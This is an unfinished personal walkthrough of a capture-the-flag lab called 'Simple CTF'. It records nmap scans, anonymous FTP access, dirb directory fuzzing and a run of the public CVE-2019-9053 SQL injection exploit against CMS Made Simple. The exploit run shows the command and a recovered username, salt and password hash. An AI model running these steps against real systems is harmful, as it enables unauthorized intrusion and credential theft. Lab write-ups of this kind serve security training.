 
# Simple CTF 

## Summary:
No summary present 😢


## (----------RECON----------)
Target IP Address: 10.10.231.22
Attack Box IP Address: 10.10.97.62
test update
webserver: http://10.10.231.22:80

## (----------SCANNING---------)

#### Port Scan Results
Nmap scan report for 10.10.231.22
Host is up (0.00066s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.97.62
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2 df
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)

MAC Address: 02:AD:35:BF:50:35 (Unknown)
Device type: general purpose|specialized
Running (JUST GUESSING): Linux 3.X (98%), Crestron 2-Series (90%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:crestron:2_series
Aggressive OS guesses: Linux 3.10 - 3.13 (98%), Linux 3.8 (92%), Crestron XPanel control system (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

#### Trace Route Results
TRACEROUTE
HOP RTT     ADDRESS
1   0.66 ms 10.10.231.22

#### Open Ports Identified 
OPEN PORTS: 
21 - FTP
80 - http (webserver)
2222 - ssh (high level port)

#### Investigation

##### FTP Server
Investigating the FTP server we see Anonymous FTP login allowed
Logging in with:
```plaintext
ftp 10.10.231.22
```
Results:
Connected to 10.10.231.22.
220 (vsFTPd 3.0.3)
Name (10.10.231.22:root):

Providing the username: anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>

Enumerating the files/directories on the server we see the following hierarchal tree:
Location: ftp> 
Directories
| _ pub
   | _ ForMitch.txt
   
1 file identified on FPT server within the directory named "pub"

extracting this file using:
```plaintext
mget *
```

Exiting the FTP server with `bye`

Viewing the contents of the extracted file provides:
*Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!*

This identifies potential weak passwords on the host 

##### Web server find
![[Pasted image 20250216165527.png]]
\- Default apache2 ubuntu page 

fuzzing directories:
```plaintext
dirb http://10.10.231.22/80 common.txt
```

### directory results: 

DIRB v2.22    
By The Dark Raver

-----------------

START_TIME: Sun Feb 16 17:07:34 2025
URL_BASE: http://10.10.231.22:80/
WORDLIST_FILES: common.txt

-----------------

GENERATED WORDS: 1942                                                          

---- Scanning URL: http://10.10.231.22:80/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/                                       
---- Entering directory: http://10.10.231.22:80/simple/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/admin/                            
==> DIRECTORY: http://10.10.231.22:80/simple/assets/                           
==> DIRECTORY: http://10.10.231.22:80/simple/doc/                              
==> DIRECTORY: http://10.10.231.22:80/simple/lib/                              
==> DIRECTORY: http://10.10.231.22:80/simple/modules/                          
==> DIRECTORY: http://10.10.231.22:80/simple/tmp/                              
==> DIRECTORY: http://10.10.231.22:80/simple/uploads/                               
---- Entering directory: http://10.10.231.22:80/simple/admin/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/admin/lang/                       
==> DIRECTORY: http://10.10.231.22:80/simple/admin/plugins/                    
==> DIRECTORY: http://10.10.231.22:80/simple/admin/templates/                  
==> DIRECTORY: http://10.10.231.22:80/simple/admin/themes/                        
---- Entering directory: http://10.10.231.22:80/simple/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)     
---- Entering directory: http://10.10.231.22:80/simple/doc/ ----    
---- Entering directory: http://10.10.231.22:80/simple/lib/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/lib/assets/                       
==> DIRECTORY: http://10.10.231.22:80/simple/lib/classes/                      
==> DIRECTORY: http://10.10.231.22:80/simple/lib/lang/                         
==> DIRECTORY: http://10.10.231.22:80/simple/lib/plugins/                           
---- Entering directory: http://10.10.231.22:80/simple/modules/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)     
---- Entering directory: http://10.10.231.22:80/simple/tmp/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)     
---- Entering directory: http://10.10.231.22:80/simple/uploads/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/uploads/images/                        
---- Entering directory: http://10.10.231.22:80/simple/admin/lang/ ----     
---- Entering directory: http://10.10.231.22:80/simple/admin/plugins/ ----     
---- Entering directory: http://10.10.231.22:80/simple/admin/templates/ ----     
---- Entering directory: http://10.10.231.22:80/simple/admin/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)   
---- Entering directory: http://10.10.231.22:80/simple/lib/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)    
---- Entering directory: http://10.10.231.22:80/simple/lib/classes/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/lib/classes/internal/                
---- Entering directory: http://10.10.231.22:80/simple/lib/lang/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)    
---- Entering directory: http://10.10.231.22:80/simple/lib/plugins/ ----    
---- Entering directory: http://10.10.231.22:80/simple/uploads/images/ ----    
---- Entering directory: http://10.10.231.22:80/simple/lib/classes/internal/ ----

-----------------
END_TIME: Sun Feb 16 17:07:51 2025
DOWNLOADED: 25246 - FOUND: 0

above shows that the directory /simple is a CMS - content management system 
![[Pasted image 20250216194440.png]]
-  CMS Made Simple version 2.2.8

Researching this version of the Content management system has revealed:
32 results for potential exploitation within exploit DB
Identified the following exploit that is most suitable per CMS version:
Released: 2019-04-02	
Title: CMS Made Simple < 2.2.10 - SQL Injection	
Type: WebApps	
Platform: PHP	
Author: Daniele Scanu
CVE ID: CVE-2019-9053

proceeded to download this executable - titled "46635.py"

added the provided wordlist to the python script located under - 
`/usr/share/seclists/Passwords/Common-Credentials/best110.txt`

Identified the script required python 2

further to execute this exploit using the following command:
```plaintext
python 46635.py -u http://10.10.231.22/simple
```

this script will then attempt to identify the following
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96

As we can see by the above results the password for the account is hashed and salted
this will require cracking




### file results

```bash
dirb http://10.10.231.22:80 -x ext.txt
```

---- Scanning URL: http://10.10.231.22:80/ ----
+ http://10.10.231.22:80/index.html (CODE:200|SIZE:11321)                                           
+ http://10.10.231.22:80/robots.txt (CODE:200|SIZE:929)          


investigating the contents of robots.txt shows the following:

##### Robots.txt content:
\#
\# "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $"
\#
\#   This file tells search engines not to index your CUPS server.
\#
\#   Copyright 1993-2003 by Easy Software Products.
\#
\#   These coded instructions, statements, and computer programs are the
\#   property of Easy Software Products and are protected by Federal
\#   copyright law.  Distribution and use rights are outlined in the file
\#   "LICENSE.txt" which should have been included with this file.  If this
\#   file is missing or damaged please contact Easy Software Products
\#   at:
\#
\#       Attn: CUPS Licensing Information
\#       Easy Software Products
\#       44141 Airport View Drive, Suite 204
\#       Hollywood, Maryland 20636-3111 USA
\#
\#       Voice: (301) 373-9600
\#       EMail: cups-info@cups.org
\#         WWW: http://www.cups.org
\#

User-agent: *
Disallow: /


Disallow: /openemr-5_0_1_3 
\#
\# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
\#




## (----------EXPLOITATION----------)


## (----------RESULTS-----------)